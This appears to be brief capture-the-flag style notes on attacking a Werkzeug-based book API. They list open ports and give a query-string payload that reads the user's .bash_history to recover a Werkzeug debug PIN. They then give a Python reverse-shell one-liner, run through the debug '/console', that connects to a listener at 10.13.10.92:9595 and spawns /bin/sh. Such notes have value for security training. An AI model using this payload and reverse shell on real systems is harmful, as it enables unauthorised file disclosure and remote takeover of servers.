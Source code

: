 # Ports
22      SSH
890     HTTP
5000    Werkzeug *VULNERABLE*

# API
http://<IP>:5000/api/v1/resources/books 

# Payload
http://<IP>:5000/api/v1/resources/books?show=.bash_history
```bash
cd /home/sid 
whoami 
export WERKZEUG_DEBUG_PIN=123-321-135 
echo $WERKZEUG_DEBUG_PIN 
python3 /home/sid/api.py 
ls 
exit
```

# Reverse using "/console"
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.10.92",9595));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

